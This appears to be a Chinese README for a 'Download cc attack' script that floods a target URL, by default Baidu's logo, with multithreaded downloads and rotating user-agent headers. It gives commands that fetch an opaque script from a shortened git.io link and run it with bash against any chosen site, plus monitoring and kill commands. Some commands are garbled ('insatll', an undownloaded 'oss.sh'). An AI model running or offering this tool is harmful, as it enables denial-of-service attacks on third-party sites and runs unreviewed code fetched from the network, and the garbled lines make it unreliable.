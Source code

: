 ## 多线程刷流量 Download cc attack
  
  会自动更换UA头，多线程下载
 
#### 下载安装:
  
  默认会刷百度logo
``` bash
wget -O dcc.sh git.io/Jftkm
bash dcc.sh &
```

&nbsp;

  如果需要改为别的地址可以这样
 
```shell
wget -O dcc.sh git.io/Jftkm
bash dcc.sh "https://www.baidu.com" &  #指定url
bash oss.sh "https://www.baidu.com" 8 & #指定url和8线程
```

&nbsp;
  
#### 查看使用流量（执行此命令起）
```shell
apt install -y iftop && iftop -i eth0
yum install -y iftop && iftop -i eth0
```

#### 如果网卡不是eth0可以改一下，看网卡名可以用这条命令

```shell
apt insatll -y net-tools && ifconfig
yum insatll -y net-tools && ifconfig
```

#### 结束命令
```shell
pkill bash && pkill wget
```
